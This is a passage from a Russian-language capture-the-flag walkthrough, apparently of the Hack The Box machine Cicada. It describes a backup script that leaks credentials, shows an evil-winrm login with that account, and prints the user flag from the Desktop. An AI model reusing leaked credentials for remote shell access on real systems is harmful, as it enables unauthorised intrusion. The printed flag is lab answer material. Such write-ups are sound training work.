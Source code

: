 ```
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```


Это **power shell** скрипт выполняет резервное копирование данных. Он включает следующие шаги:
- Определяет исходную и целевую директории (`C:\smb` и `D:\Backup`)
- Использует учетные данные для выполнения операций (утечка еще одной учетной записи)
- Создает **ZIP**  архив файлов из исходной директории и сохраняет его в целевой директории с отметкой времени

**WinRM** — это сервис, предоставляющий возможности удаленного администрирования через **HTTP** и **HTTPS**. Он является частью **Windows Management Framework** и ориентирован для выполнения команд на удаленной машине.

Давайте попробуем войти в **WinRM** через `emily.oscars`
```
Hexada@hexada ~/app/pentesting-tools/NetExec/nxc$ evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#*****'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>
```

Прекрасно, теперь нам остается найти **User Flag**, и сдать его на **HTB**

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> cd ..
```
```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> cd Desktop
```
```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> ls


    Directory: C:\Users\emily.oscars.CICADA\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         1/11/2025   1:11 AM             34 user.txt
```
```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> more user.txt
b6b7ed8e192e6aaf2fff2ac943d4efe9
```

Поздравляю, мы получили **User Flag**!!!

---